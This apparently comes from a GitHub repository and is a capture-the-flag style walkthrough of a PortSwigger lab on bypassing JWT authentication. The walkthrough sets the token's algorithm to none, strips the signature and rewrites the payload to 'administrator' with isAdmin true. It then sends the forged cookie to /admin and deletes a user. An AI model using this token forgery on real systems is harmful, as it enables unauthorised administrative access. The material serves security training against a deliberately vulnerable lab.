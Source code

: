 
# [Lab: JWT authentication bypass via flawed signature verification](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification)

- This lab uses a JWT-based mechanism for handling sessions. 
- The server is insecurely configured to accept unsigned JWTs.
- To solve the lab, modify your session token to gain access to the admin panel at
	`/admin`,
- then delete the user `carlos`.

- You can log in to your own account using the following credentials:
	`wiener:peter`
---

</br>

- ####  Edit the Payload data value for the user
change from wiener to administrator, and set isAdmin to true in the Inspector tab
```json
 {"iss":"portswigger","exp":1711053534,"sub":"administrator","isAdmin": true}
```
</br>

- #### Delete the Signature part of the JWT in the repeater
but leave the period that separated the Payload from the signature
And change the request to `GET /admin` 

```http
GET /admin HTTP/2
Host: web-security-academy.net
Cookie: session=eyJraWQiOiJjYjExODE5NS00OGNhLTQ4YWItOWQ4Mi04Nzk2ZGU1NDkxNTMiLCJhbGciOiJub25lIn0.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTcxMTA1MzUzNCwic3ViIjoiYWRtaW5pc3RyYXRvciIsImlzQWRtaW4iOiB0cnVlfQ.
```
</br>

- #### This lands you in the administrators panel, and from there, you can search for carlos in the response HTML to find

    `<a href="/admin/delete?username=carlos">`
- #### Then change the request to `GET /admin/delete?username=carlos `
- #### Lab solved!

</br>

Reminder
### JWT Anatomy

```jwt

HEADER:ALGORITHM & TOKEN TYPE
{
  "alg": "HS256",
  "typ": "JWT"
}

PAYLOAD:DATA
{
  "sub": "1234567890",
  "name": "John Doe",
  "iat": 1516239022
}

SIGNATURE Verification

HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
) secret base64 encoded

```
